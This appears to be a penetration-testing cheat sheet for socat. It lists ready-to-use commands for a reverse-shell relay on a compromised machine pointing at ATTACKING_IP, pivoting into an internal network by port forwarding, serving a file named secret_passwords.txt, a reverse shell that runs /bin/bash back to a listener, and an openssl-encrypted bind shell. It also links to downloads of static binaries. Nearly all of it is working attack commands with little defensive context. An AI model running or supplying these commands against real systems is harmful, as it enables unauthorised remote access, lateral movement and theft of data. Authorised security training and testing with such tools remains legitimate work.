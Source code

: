 ### socat  

## Reverse Shell Relay  

After setting up a listener on the attacker machine e.g.  

`nc -lvnp 443`  

A reverse shell relay can be created on the compromised machine to pivot into a previous unreachable network.  

`./socat tcp-l:8000 tcp:ATTACKING_IP:443 &`  

## Port Forward  

Compromised server is 172.0.0.5:33060 and the target is 172.16.0.10:3306.

`./socat tcp-l:33060,fork,reuseaddr tcp:172.16.0.10:3306 &`

## Static Binaries.  


Static Linux binary.  

https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat  

Static Windows binary.  

https://sourceforge.net/projects/unix-utils/files/socat/1.7.3.2/socat-1.7.3.2-1-x86_64.zip/download  

## Connect.  

Connect to a server on port 80.  

`socat - TCP4:<REMOTE SERVER IP>:80`  

Set up a listener on port 443, sudo is required on ports below 1024.  

`sudo socat TCP4-LISTEN:443 STDOUT`  

## File Transfers.  

To set up a listener to share a file, fork creates a child process allowing multiple connections.  

`sudo socat TCP4-LISTEN:443,fork file:secret_passwords.txt`  

Retrieve the above file.  

`socat TCP4:<REMOTE IP ADDRESS>:443 file:received_secret_passwords.txt,create`  

## Reverse Shell.  

Set up a listener on 443.  

`socat -d -d TCP4-LISTEN:443 STDOUT`  

Connect back to above listener.  

`socat TCP4:<LISTENER IP>:443 EXEC:/bin/bash`  

## Encrypted Bind Shell.  

Use openssl to create a certificate.  

`openssl req -newkey rsa:2048 -nodes -keyout bind_shell.key -x509 -days 362 -out bind_shell.crt`  

Cat key and cert into a file.  

`cat bind_shell.key bind_shell.crt > bind_shell.pem`  

Set up a listener on 443, ssl verification is turned off.  

`sudo socat OPENSSL-LISTEN:443,cert=bind_shell.pem,verify=0,fork EXEC:/bin/bash`  

Connect to listener, using '-' as STDIN and cert verification off.  

`socat - OPENSSL:<LISTENER IP>:443,verify=0`  


